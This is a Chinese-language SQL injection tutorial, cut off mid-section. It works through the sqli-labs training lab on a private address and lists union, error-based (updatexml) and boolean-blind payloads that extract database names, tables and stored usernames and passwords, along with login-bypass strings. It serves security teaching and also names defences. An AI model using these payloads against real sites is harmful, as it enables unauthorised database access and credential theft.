# 1.**漏洞概述及危害**

## 1.1.**漏洞概述**

发生在 Web 程序中数据库层的安全漏洞，是网站存在最多也是最简单的漏洞。主要原因是程序对用户输入数据的合法性没有判断和处理，导致攻击者可以在 Web 应用程序中事先定义好的 SQL 语句中添加额外的 SQL 语句，在管理员不知情的情况下实现非法操作，以此来实现欺骗数据库服务器执行非授权的任意查询，从而进一步获取到数据信息。

## 1.2.**漏洞危害**

攻击者可以通过SQL注入获取服务器的库名、表名、字段名、数据库版本、操作系统，从而获取整改网站服务器中的数据，对网站的用户的数据安全造成极大的威胁。

非法登对数据库进行脱裤，获取数据进行贩卖。

如果网站目录存在写入权限，可以在网站中写入木马，攻击者进而可以对网页进行篡改，登录后台发布不实言论、内容，对数据库中添加恶意账号。

经过提权等步骤，使服务器的最高权限被攻击者获取，攻击者可以远程控制服务器，安装后门，得以修改或者空中操作系统等。

## 1.3.**漏洞防范**

增强输入验证及过滤，使用白名单或黑名单进行控制。

对特殊的字符编码进行转义。

预编译。

使用WAF防范软硬件进行防范。

对数据库中重要的数据进行加密处理。

遵循最小化权限原则，严格区分各类账号管理的范围。

# 2.**SQL注入**

## 2.1.**SQL注入方式**

### 2.1.1.**信息收集**

操作系统、数据库名、数据库用户、数据库版本、其他路径。

### 2.1.2.**数据注入**

低版本通过暴力查询或结合读取进行获取。

高版本可以通过information_schema语句进行查询。

### 2.1.3.**高权限注入**

常规查询、跨库查询、文件读写（（存在魔术引导—编码或宽字节绕过），不存在魔术引导）、相关防注入（自带防注入：魔术引导、内置函数：int等、自定义关键字：select、WAF安全防护：安全狗，宝塔等）

## 2.2.**判断是否存在注入点**

### 2.2.1.**新办法**

SELECT * FROM users WHERE id=1 and 1=1 LIMIT 0,1 页面正常

SELECT * FROM users WHERE id=1 and 1=2 LIMIT 0,1 页面不正常

### 2.2.2.**老办法**

?id=1 and 1=1 页面正常

?id=1 and 1=2 页面不正常

### 2.2.3.**字段判断**

#### 2.2.3.1.**数字型**

and 1=2--+

#### 2.2.3.2.**字符型**

'and 1=2--+

"and 1=2--+

)and 1=2--+

')and 1=2--+

")and 1=2--+

"))and 1=2--+

#### 2.2.3.3.**万能密码**

在遇到登录绕过的时候，就能够使用到万能密码。

"or "a"="a

 ')or('a'='a

or 1=1--

'or 1=1--

a'or' 1=1--

"or 1=1--

'or'a'='a

"or"="a'='a

'or''='

1'or'='or'

1 or '1'='1'=1

1 or '1'='1' or 1=1

 'OR 1=1%00

***\*注：\****判断上面类型的注入，--+可以用#替换，url 提交过程中 Url 编码后的#为%23，--+或#的作用是用于结束后面的语句执行。

***\*注：\****判断字符型和数字型，数字and 1=2 是能够进行计算的所以1=2是不成立的返回错误，若返回正确则是字符型，具体字符型需要如何闭合，就需要进行测试。

 

## 2.3.**明确参数类型**

### 2.3.1.**干扰字符**

'、"、%、)、}等，具体需要进行测试。

### 2.3.2.**判断情况**

url后面是字符，那么里面可能就是字符型注入。

url后面是数字，可能是字符型或数字型，具体需要进行测试判断。

## 2.4.**知识点**

mysql 5.0以下为低版本，5.0以上为高版本（有information_schema数据库）这个数据库是存储所有数据库名，表名，列名，相当于可以通过查询这个数据库获取指定数据库下面的表名列名信息。

数据库中"."代表下一级，如haha.user表示haha数据库下的user表名

information_schema.tables   记录所有表名信息的表

information_schema.columns  记录所有列名信息的表

information_schema.schemata 记录所有数据库信息的表

table_schema  数据库名

table_name   表名

column_name  列名

group_concat() 显示所有查询到的数据

## 2.5.**SQL注入步骤**

判断类型》对其进行闭合》获取数据库名》获取数据库表名》获取数据库列名》获取数据库字段。

## 2.6.**SQL注入初次尝试**

### 2.6.1.**高版本>5.0版本**

#### 2.6.1.1.**判断注入点**

输入?id=1 and 1=2--+后返回的页面是不正常的，通过返回结果判断该页面存在漏洞。

并且由此可以判断该页面为数字型注入。

URL：http://192.168.10.150/sqlilabs/Less-2/?id=1 and 1=2--+

 

#### 2.6.1.2.**猜解列名数量**

通过猜解列名数量判断存在多少列，通过列的数量结合union select进行联合查询。

通过不断的测试，当输入4的时候页面出现报错，那么就可以判断该页面的数据库存在3列。

URL：http://192.168.10.150/sqlilabs/Less-2/?id=1 order by 4--+

 

#### 2.6.1.3.**判断回显位**

通过上面获取的列数量，对其进行联合查询。

Union select后面的1,2,3是通过上面获取的列的数量来进行添加的，若获取列的数量是4，那么就是union select 1,2,3,4。

同时在id=1的前面需要添加减号，使其不成立执行后面的语句，也就是?id=-1 union select 1,2,3--+

URL：http://192.168.10.150/sqlilabs/Less-2/?id=-1 union select 1,2,3--+

 

#### 2.6.1.4.**信息收集**

按照需要对数据进行查询，在这个初次尝试中只需要获取一个数据库当前版本信息以及数据库名就可以了。将参数输入之显示位进行查询，显示位就是上图能够显示123的地方，而上面只显示了2和3，那么是2和3就是显示位。

user()       数据库用户名 

database()     当前数据库名

version()      当前数据库版本信息

@@hostname    服务器主机名

@@basedir     数据库安装路径

@@version_compile_os   操作系统

通过获取得知数据库版本：5.5.53，数据名：security。

URL：http://192.168.10.150/sqlilabs/Less-2/?id=-1 union select 1,database(),version()--+

 

#### 2.6.1.5.**获取数据库下的表**

通过上述获取到的数据库版本是>5.0的，那么我们根据知识点中提到的数据库版本>5.0会存在information_schema，根据这个方式对其进行获取数据库下的表的注入操作。

URL：http://192.168.10.150/sqlilabs/Less-2/?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema="security"--+

 

#### 2.6.1.6.**获取数据库表下的列**

从上面获取到的表有4个表，但是我们需要获取到的是数据库中的账号密码，通过上面4个表的名字进行判断，猜测用户数据存在users中。

URL：http://192.168.10.150/sqlilabs/Less-2/?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name="users"--+

 

我这里可能比较乱，由于被修改过一些东西，所以显示的会有点乱，不需要在意。

#### 2.6.1.7.**获取数据库列下的账号密码**

通过上面获取到的列，我们可以判断账号存在username，密码存在password中。

URL：http://192.168.10.150/sqlilabs/Less-2/?id=-1 union select 1,group_concat(username),group_concat(password) from users--+

 

### 2.6.2.**低版本<5.0版本**

在低版本中表名和列名只能靠猜，使用工具跑字典，但是目前应该很少遇到了。

# 3.**常见的注入方式**

## 3.1.**联合查询**

### 3.1.1.**联合查询基本概念**

联合注入是回显注入的一种，也就是说联合注入的前提条件就是需要页面上能够有回显位。

回显位就是客户端将数据展示在页面中，这个展示数据的位置就叫回显位。

### 3.1.2.**联合查询步骤**

判断注入点》判断注入类型（数字型或字符型）》判断字段数》判断显示位》确定数据库名》确定数据库的表名》确定数据库的列名》确定数据库的字段名》获取数据。

### 3.1.3.**案例sqli-labs-less-2数字型**

参考SQL注入初次尝试中的高版本案例。

### 3.1.4.**案例sqli-labs-less-1 字符型**

#### 3.1.4.1.**判断注入点**

?id=1 and 1=1--+ 正常

?id=1 and 1=2--+ 正常

到这里其实基本上可以判断不是数字型了，那么就需要按照我们上面提到的干扰字符进行测试，可以按照上述的字段判断一条一条测试。

?id=1' and 1=2--+ 不正常

运气很好习惯性的加入一个引号就闭合了。

URL：http://192.168.10.150/sqlilabs/Less-1/?id=1' and 1=2--+

 

#### 3.1.4.2.**判断注入类型**

其实通过上面的判断就可以得知第一关是字符型。

#### 3.1.4.3.**判断字段数**

order by 函数是对MySQL中查询结果按照指定字段名进行排序，除了指定字段名还可以指定字段的栏位进行排序，第一个查询字段为1，第二个为2，依次 类推。若输入数值为n时报错，那么表示没有n个字段，总的字段数为n-1。

URL：http://192.168.10.150/sqlilabs/Less-1/?id=1' order by 4--+

 

#### 3.1.4.4.**判断显示位**

通过上面了解到字段数，后面通过union select 1,2,3....n（n为字段数）对其进行判断回显位。

URL：http://192.168.10.150/sqlilabs/Less-1/?id=-1' union select 1,2,3--+

 

#### 3.1.4.5.**确定数据库名**

通过信息收集来判断数据库名，得知数据库名为：security。

URL:http://192.168.10.150/sqlilabs/Less-1/?id=-1' union select 1,database(),version()--+

 

#### 3.1.4.6.**确定数据库的表名**

由于版本>5.0，使用我们使用知识点中提到的方式进行查询。

URL：http://192.168.10.150/sqlilabs/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema="security"--+

 

#### 3.1.4.7.**确定数据库的列名**

URL:http://192.168.10.150/sqlilabs/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name="users"--+

 

#### 3.1.4.8.**确定数据库的字段名**

URL:http://192.168.10.150/sqlilabs/Less-1/?id=-1' union select 1,group_concat(username),group_concat(password) from users--+

 

#### 3.1.4.9.**获取数据**

最终在通过上面的数据输出后，我们获取到相关的账号及密码。

## 3.2.**基于报错盲注**

### 3.2.1.**报错盲注基本概念**

#### 3.2.1.1.**报错盲注的定义**

报错注入就是利用了数据库的某些机制，人为的制造错误的条件，使得查询的结果能够出现在错误的信息中。

#### 3.2.1.2.**报错盲注的前提**

页面没有回显点，但是必须SQL语句能够执行错误的信息。

优点：不需要显示位。

缺点：需要有SQL语句的报错信息。

### 3.2.2.**报错盲注步骤**

构造目标数据查询语句》选择报错注入函数》构造报错注入语句》拼接报错注入语句。

### 3.2.3.**常用报错函数**

Floor、updatexml、extractvalue.......等等。

### 3.2.4.**常用报错函数使用语法**

#### 3.2.4.1.**Updatexml()函数报错注入**

Updatexml()则负责修改查询到的内容

语法：updatexml (XML_document, XPath_string, new_value);

第一个参数：XML_document是String格式，为XML文档对象的名称，XML的内容。

第二个参数：XPath_string (Xpath格式的字符串) ，是需要update的位置XPATH路径。

第三个参数：new_value，String格式，更新后的内容

#### 3.2.4.2.**extractvalue()函数报错注入**

extractvalue()函数作用：MYSQL对XML文档数据进行查询的XPATH函数。

语法： extractvalue(xml_document, xpath_string)

第一个参数：xml_document是string格式，为xml文档对象的名称

第二个参数：xpath_string (xpath格式的字符串)

extractvalue使用时当xpath_string格式出现错误，mysql则会爆出xpath语法错误

### 3.2.5.**案例sqli-labs-less-5 字符型**

使用Updatexml()函数进行演示

#### 3.2.5.1.**判断注入点**

?id=1 and 1=1--+ 正常

?id=1 and 1=2--+ 正常

到这里其实基本上可以判断不是数字型了，那么就需要按照我们上面提到的干扰字符进行测试，可以按照上述的字段判断一条一条测试。

?id=1' and 1=2--+ 不正常

运气很好习惯性的加入一个引号就闭合了。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and 1=2--+

 

#### 3.2.5.2.**判断注入类型（数字型或字符型）**

其实通过上面的判断就可以得知第一关是字符型。

#### 3.2.5.3.**判断是否存在报错注入**

通过构建基本的语句对页面进行测试是否存在报错注入。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,'~',3)--+

 

#### 3.2.5.4.**确定数据库名**

通过对其进行拼接使其能够进行报错，并且在报错的同时显示出数据库名，concat(0x7e,database())。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,database()),3)--+

 

#### 3.2.5.5.**确定数据库的表名**

把concat中database()换成正常的查询sql语句就可以了，和联合查询语句如出一辙。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security' )),3)--+

 

#### 3.2.5.6.**确定数据库的列名**

***\*未分页：\****

其实在下图就可以看到，好像未显示完整，这是由于updatexml报错只能显示32位，所以在报错多的情况下需要进行分页。

使用limit参数进行控制，同时上面的group_concat(column_name)也需要改为column_name，因为group_concat()是获取全部。

URL:http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' )),3)--+

 

我这里获取到的数据有点问题，暂时没有找到获取哪里的数据了，但是前面的测试都是能够正常获取的，不知道是不是最近又加了一些靶场存在一些冲突的数据。

***\*分页：\****

通过控制limit 后面的数量实现分页输出。

URL:http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1)),3)--+

 

#### 3.2.5.7.**确定数据库的字段名**

获取users列下的username值，可以通过控制limit的参数进行输出。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select username from users limit 0,1 )),3)--+

 

获取users列下的password值，可以通过控制limit的参数进行输出。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select password from users limit 0,1 )),3)--+

 

 

#### 3.2.5.8.**获取数据。**

最终在通过上面的数据输出后，我们获取到相关的账号及密码。

## 3.3.**基于布尔盲注**

### 3.3.1.**布尔盲注基本概念**

#### 3.3.1.1.**布尔盲注的原理**

布尔盲注一般适用于页面没有回显位置，也就是不支持联合查询，同时web页面返回true或者false构造SQL语句，从而达到注入获取数据的目的。

### 3.3.2.**布尔盲注步骤**

求数据库名的长度及ASCII》求当前数据库表的ASCII》求当前数据库表中的个数》求数据库中表名的长度》求数据库中表名》求列名的数量》求列名的长度》求列名的ASCII》求字段的数量》求字段的长度》求字段内容ASCII

### 3.3.3.**常用布尔函数使用语法**

#### 3.3.3.1.**substr()截取函数**

语法：substr(str，start，length)

第一个参数str为被截取的字符串。

第二个参数start为开始截取的位置。

第三个参数length为截取的长度。

如：substr(user()，1，1)，从user中返回的数据的第一位开始偏移位置截取一位，后续需要获取其他的数据只需要修改参数即可。

#### 3.3.3.2.**left()截取函数**

语法：left(str，length)

第一个参数str为被截取的字符串。

第二个参数length为截取的长度。

如：left(user()，2)，从user中返回的数据中截取前两位。

#### 3.3.3.3.**right()截取函数**

语法：rigth(user()，2)

参考left()函数用法。

#### 3.3.3.4.**ascii()转换函数**

语法：ascii(char)

第一个参数char为一个字符。

如：ascii(user())若char为一串字符串，则返回的结果将是第一个字母的ASCII码，通常在使用中结合substr函数结合使用。Ascii(substr(user()1,1)),这样就可以获取user()中第一位字符的ASCII码。

#### 3.3.3.5.**length()计算函数**

语法：length(str)

第一个参数str为字符串。

如：length(admin)返回就是5。如果不是放某个字符串，放置表达式的时候，需要使用括号括起来。

#### 3.3.3.6.**ord()转换函数**

语法：ord(str)

参考ascii()函数用法。

如果存在没写到的函数，但是使用了，可以自行搜索。

### 3.3.4.**ASCII表**

 

### 3.3.5.**案例sqli-labs-less-5 字符型**

#### 3.3.5.1.**判断注入点**

?id=1 and 1=1--+ 正常

?id=1 and 1=2--+ 正常

到这里其实基本上可以判断不是数字型了，那么就需要按照我们上面提到的干扰字符进行测试，可以按照上述的字段判断一条一条测试。

?id=1' and 1=2--+ 不正常

运气很好习惯性的加入一个引号就闭合了。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and 1=2--+

 

#### 3.3.5.2.**猜测数据库版本号**

数据库版本是5.6.17，这里的语句意思就是测试数据库版本第一位是不是5，通过返回的结果显示是对的。若不是5则页面返回错误，若是5则页面返回正确。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and left (version(),1)=5--+

 

#### 3.3.5.3.**猜测数据库名长度**

若是8则返回正确，若不是8则返回错误。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and length(database())=8--+

 

#### 3.3.5.4.**猜测数据库名**

Database()为 security，所以我们看他的第一位是否 > a,很明显的是 s > a,因此返回正确。

URL:http://192.168.10.150/sqlilabs/Less-5/?id=1' and left(database(),1)>'a'--+

 

Database()为 security，所以我们看他的前两位是否 > sa,因此返回正确。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and left(database(),2)>'sa'--+

 

用ascii来判断数据第一个字符是什么。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ascii(substr(database(),1,1))=115--+

 

用ascii来判断数据第二个字符是什么。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ascii(substr(database(),2,1))=101--+

 

#### 3.3.5.5.**猜测数据库表的数量**

在security中表只有4张表，从0开始计算，实际只能到3，1而不能到4，1，所以当到4，1的时候大于0就不成立，所以无显就能判断出该数据库只有4张表。

URL:http://192.168.10.150/sqlilabs/Less-5/?id=1' and (length((select table_name from information_schema.tables where table_schema=database() limit 3,1))) > 0 --+

 

#### 3.3.5.6.**猜测数据库表名的长度**

判断长度，例如上面的链接，大于5，实际在数据库中第一个表是6位，而这里大于5是正确的所以回显正常，这样可以判断表有多少位。当然也可以直接使用等于来进行判断。

URL:http://192.168.10.150/sqlilabs/Less-5/?id=1' and length((select table_name from information_schema.tables where table_schema='security' limit 0,1))>5--+

 

若需要猜测第二张表怎么办？

把limit 0,1修改为limit 1,1就可以查询第二张表的长度了。第二张表的长度是8位，可以修改后进行测试。

#### 3.3.5.7.**猜测数据库表名**

如何猜测第一张表的第一个字母？

